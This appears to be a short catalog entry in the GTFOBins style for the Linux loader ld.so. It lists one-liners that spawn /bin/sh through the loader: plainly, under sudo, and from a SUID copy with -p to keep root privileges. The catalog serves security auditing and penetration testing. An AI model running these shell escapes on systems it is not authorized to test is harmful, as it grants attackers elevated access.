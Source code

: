 ```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  exec-interactive:
    - code: /lib/ld.so /bin/sh
  sudo-enabled:
    - code: sudo /lib/ld.so /bin/sh
  suid-enabled:
    - code: ./ld.so /bin/sh -p
---
```

